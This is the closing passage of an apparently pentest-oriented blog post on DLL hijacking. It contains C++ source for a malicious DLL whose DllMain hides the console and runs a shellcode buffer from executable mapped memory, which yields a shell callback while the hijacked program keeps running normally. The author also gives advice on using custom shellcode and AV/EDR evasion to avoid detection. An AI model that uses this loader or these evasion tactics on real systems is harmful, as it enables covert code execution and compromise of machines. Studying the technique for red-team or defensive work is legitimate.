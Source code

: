 VOID Payload() {
 ShowWindow(GetConsoleWindow(), SW_HIDE);

 HANDLE mem_handle = CreateFileMappingA(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(buf), NULL);

 void* mem_map = MapViewOfFile(mem_handle, FILE_MAP_ALL_ACCESS | FILE_MAP_EXECUTE, 0x0, 0x0, sizeof(buf));

 std::memcpy(mem_map, buf, sizeof(buf));

 std::cout << ((int(*)())mem_map)() << std::endl;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
 switch (fdwReason)
 {
 case DLL_PROCESS_ATTACH:
  Payload();
  break;
 case DLL_THREAD_ATTACH:
  break;
 case DLL_THREAD_DETACH:
  break;
 case DLL_PROCESS_DETACH:
  break;
 }
 return TRUE;
}
After performing DLL Hijacking with the compiled DLL, the binary executes as normal, while we receive the shell callback.
Conclusion
As mentioned before, DLL Hijacking on its own is a valid finding and often during pentests, it can be enough just to prove that it is vulnerable. However, in more complex cases, you may need to operate more stealthy. Since the default DLL Hijacking is corrupting the binary, this can be a huge IOC (Indicator Of Compromise). To evade being detected, I recommend sticking to as much as possible to custom made DLLs, custom made shellcode and do not forget to implement additional AV/EDR evasion techniques alongside with the DLL Proxying.
Thank you for your attention, I really hope this blog is useful, if so, make sure to follow me on:
Youtube: https://www.youtube.com/@Lsecqt
Twitter: https://twitter.com/lsecqt
Github: https://github.com/lsecqt